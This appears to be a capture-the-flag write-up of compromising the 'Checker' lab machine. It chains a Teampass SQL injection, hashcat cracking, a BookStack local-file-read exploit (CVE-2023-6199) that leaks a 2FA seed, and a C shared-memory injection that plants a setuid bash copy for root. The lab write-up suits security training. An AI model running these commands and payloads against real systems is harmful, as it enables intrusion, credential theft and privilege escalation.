

# Enumeration

Three ports were available on the machine.

```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    Apache httpd
|_http-server-header: Apache
|_http-title: 403 Forbidden
8080/tcp open  http    Apache httpd
|_http-server-header: Apache
|_http-title: 403 Forbidden
```

There are 2 web applications preventing access using login forms.

I focused on the one hosted on 8080. A Teampass application was on this service and was vulnerable to an sqli: https://www.exploit-db.com/exploits/52094.

Running the exploit, two hashes were found, one for the admin user and an other for the user "bob".


```
admin: $2y$10$lKCae0EIUNj6f96ZnLqnC.LbWqrBQCT1LuHEFht6PmE4yH75rpWya
bob: $2y$10$yMypIj1keU.VAqBI692f..XXn0vfyBL7C1EhOs35G59NxmtpJ/tiy
```

I tried to crack them both.

`hashcat -a 0 -m 3200 hashes ~/pentest/wordlist/rockyou.txt`

`$2y$10$yMypIj1keU.VAqBI692f..XXn0vfyBL7C1EhOs35G59NxmtpJ/tiy:cheerleader`

But only bob password were recovered

bob:cheerleader

With these credentials the access to the teampass was possible.


Login into the app, documents about ssh and bookstack access was available, except that the password for ssh (`hiccup-publicly-genesis`) didn't work.

`bob@checker.htb:mYSeCr3T_w1kI_P4sSw0rD`

With these new credentials, I could access the bookstack application, application vulnerable to the following CVE: CVE-2023-6199. A walkthrough on how to exploit it is available at https://fluidattacks.com/blog/lfr-via-blind-ssrf-book-stack. They were using this [tools](https://fluidattacks.com/es/advisories/imagination) but changes had to be made for the exploit to work with the bookstack vulnerabitlity:

```python
"""
The use of base64 src image were desmonstrated in the POC of the vulnerability , so I assumed the file reading was through this
"""
data[self.parameter] = f"" #line 99
```

```bash
python3 filters_chain_oracle_exploit.py --parameter html --headers '{"Content-Type": "application/x-www-form-urlencoded","X-CSRF-TOKEN":"mCqmrMByrxnbA3Bh1mhay1W3tCjcl4QQDen9UlXj","Cookie":"bookstack_session=eyJpdiI6InM4dzg5MXliOTRxQmxBZ3l3dWN4cGc9PSIsInZhbHVlIjoiMTJDY2cyVlpFaFRpZFE3UFArTS9KOFo3ZVgxMnNOMmc1Z0wwU3FmODFhYUxnZEVyYVUyRzJoK2prem9rcVhsZG1HVXVrdXZrLzhyNjgvM0F1bzdJUU5PdWE2Q0U4RlRhZHVSZ21Jdk5NSnhnVWZOZW1SamwwejNMNFJJSVpJeVEiLCJtYWMiOiJmMDM4ZTZiOTAzMTNlZTM2ODdkZTdiOGNlMGE0MzA2NzZlNTIzOTM3MzYwMGFmYmZmZDhkMTkyMDljZTcxMzIxIiwidGFnIjoiIn0%3D"}' --verb PUT --target http://checker.htb/ajax/page/8/save-draft --file '/etc/passwd'
```

With this file I discovered a user called "reader". I remembered ssh credentials stored in the teampass application. I tried them and the password worked ! However, it required a "verification code"

```
ssh reader@10.10.11.56
(reader@10.10.11.56) Password: 
(reader@10.10.11.56) Verification code: 
```

Looking for 2fa configuration files related to ssh, I came across the `~/.google_authentication` file. Unfortunately, this file is only readable by the user itself. However, the blog spoke about backups.


I try to read the file located in the backup folder:

```bash
python3 filters_chain_oracle_exploit.py --parameter html --headers '{"Content-Type": "application/x-www-form-urlencoded","X-CSRF-TOKEN":"mCqmrMByrxnbA3Bh1mhay1W3tCjcl4QQDen9UlXj","Cookie":"bookstack_session=eyJpdiI6InM4dzg5MXliOTRxQmxBZ3l3dWN4cGc9PSIsInZhbHVlIjoiMTJDY2cyVlpFaFRpZFE3UFArTS9KOFo3ZVgxMnNOMmc1Z0wwU3FmODFhYUxnZEVyYVUyRzJoK2prem9rcVhsZG1HVXVrdXZrLzhyNjgvM0F1bzdJUU5PdWE2Q0U4RlRhZHVSZ21Jdk5NSnhnVWZOZW1SamwwejNMNFJJSVpJeVEiLCJtYWMiOiJmMDM4ZTZiOTAzMTNlZTM2ODdkZTdiOGNlMGE0MzA2NzZlNTIzOTM3MzYwMGFmYmZmZDhkMTkyMDljZTcxMzIxIiwidGFnIjoiIn0%3D"}' --verb PUT --target http://checker.htb/ajax/page/8/save-draft --file "/backup/home_backup/home/reader/.google_authenticator"
[*] The following URL is targeted : http://checker.htb/ajax/page/8/save-draft
[*] The following local file is leaked : /backup/home_backup/home/reader/.google_authenticator
[*] Running PUT requests
[*] Additionnal headers used : {"Content-Type": "application/x-www-form-urlencoded","X-CSRF-TOKEN":"mCqmrMByrxnbA3Bh1mhay1W3tCjcl4QQDen9UlXj","Cookie":"bookstack_session=eyJpdiI6InM4dzg5MXliOTRxQmxBZ3l3dWN4cGc9PSIsInZhbHVlIjoiMTJDY2cyVlpFaFRpZFE3UFArTS9KOFo3ZVgxMnNOMmc1Z0wwU3FmODFhYUxnZEVyYVUyRzJoK2prem9rcVhsZG1HVXVrdXZrLzhyNjgvM0F1bzdJUU5PdWE2Q0U4RlRhZHVSZ21Jdk5NSnhnVWZOZW1SamwwejNMNFJJSVpJeVEiLCJtYWMiOiJmMDM4ZTZiOTAzMTNlZTM2ODdkZTdiOGNlMGE0MzA2NzZlNTIzOTM3MzYwMGFmYmZmZDhkMTkyMDljZTcxMzIxIiwidGFnIjoiIn0%3D"}
[+] File /backup/home_backup/home/reader/.google_authenticator leak is finished!
RFZEQlJBT0RMQ1dGN0kyT05BNEs1TFFMVUUKIiBUT1RQX0FVVEgK
b'DVDBRAODLCWF7I2ONA4K5LQLUE\n" TOTP_AUTH\n'
```

This is the seed we need to recover the 2fa code. By writing this python script I managed to retrieve a valid code

```python
import pyotp
secret = "DVDBRAODLCWF7I2ONA4K5LQLUE"

totp = pyotp.TOTP(secret)   
print(totp.now())
```

```bash
/usr/bin/python /home/meow/htb/checker/otp.py
259456
```


On the machine, there were a script with sudo permission:


this is the content of the script:

```bash
#!/bin/bash
source `dirname $0`/.env
USER_NAME=$(/usr/bin/echo "$1" | /usr/bin/tr -dc '[:alnum:]')
/opt/hash-checker/check_leak "$USER_NAME"
```

Along with the script was a binary and a file containing hashes:


I use ghidra to reverse the binary. What caught my eyes is the use of shared memory:

```c
__shmid = shmget(param_5,0,0x1b6);
  if (__shmid == 0xffffffff) {
    printf("No shared memory segment found for the given address: 0x%X\n",(ulong)param_5);
  }
  else {
    __haystack = (char *)shmat(__shmid,(void *)0x0,0);
    if (__haystack == (char *)0xffffffffffffffff) {
      if (DAT_80019140 != '\0') {
        __asan_report_load8(&stderr);
      }
      fprintf(stderr,
              "Unable to attach to shared memory segment with ID %d. Please check if the segment is accessible.\n"
              ,(ulong)__shmid);
    }
    else {
      pcVar4 = strstr(__haystack,"Leaked hash detected");
      if (pcVar4 == (char *)0x0) {
        puts("No hash detected in shared memory.");
      }
      else {
        pcVar4 = strchr(pcVar4,0x3e);
        if (pcVar4 == (char *)0x0) {
          puts("Malformed data in the shared memory.");
        }
        else {
          uVar5 = trim_bcrypt_hash(pcVar4 + 1);
          iVar2 = setenv("MYSQL_PWD",param_3,1);
          if (iVar2 == 0) {
            iVar2 = snprintf((char *)0x0,0,
                             "mysql -u %s -D %s -s -N -e \'select email from teampass_users where pw  = \"%s\"\'"
                             ,param_2,param_4,uVar5);
```

What it does:
- read a shared memory located at an "unknown" address
- extract its value
- look for `Leaked hash detected`
- extract the "hash" based on `>`
- pass the "hash" through the function `trim_bcrypt_hash`
- execute a `mysql` command with the returned value put in the query

To exploit this, we need:
- To find the key allowing us to recreate the shared-memory address (brute force)
- Attach the following payload `Leaked hash detected > '; cp /bin/bash /tmp/meow; chmod 4755 /tmp/meow;#` to this shared-memory

Asking chatGPT to write a code according to the requirements:

```
#include <stdio.h>
#include <stdlib.h>
#include <time.h>
#include <sys/ipc.h>
#include <sys/shm.h>
#include <string.h>
#include <unistd.h>
#include <errno.h>

#define SHM_SIZE 1024
#define MAX_TRIES 100000
#define PAYLOAD "Leaked hash detected > '; cp /bin/bash /tmp/meow; chmod 4755 /tmp/meow;#"

int main() {
    key_t key;
    int shmid;
    char *shmaddr;
    int attempts = 0;

    srand(time(NULL));

    while (attempts < MAX_TRIES) {
        key = rand() % 0xFFFFF; 

        shmid = shmget(key, SHM_SIZE, 0);
        if (shmid != -1) {
            printf("[+] Found valid shared memory segment with key: 0x%X (attempt %d)\n", key, attempts);

            shmaddr = shmat(shmid, NULL, 0);
            if (shmaddr == (char *)-1) {
                perror("[-] Failed to attach to shared memory");
            } else {
                printf("[*] Writing payload to shared memory...\n");
                strncpy(shmaddr, PAYLOAD, SHM_SIZE - 1);
                shmaddr[SHM_SIZE - 1] = '\0';

                if (shmdt(shmaddr) == -1) {
                    perror("[-] Failed to detach from shared memory");
                } else {
                    printf("[+] Payload injected and detached successfully.\n");
                }
                break;
            }
        }

        attempts++;
    }

    if (attempts == MAX_TRIES) {
        printf("[-] Exhausted %d attempts without finding a valid segment.\n", MAX_TRIES);
    }

    return 0;
}
```

I had a few tries before it worked, but after the 4th attempt:



And indeed:


Finally, the root access:


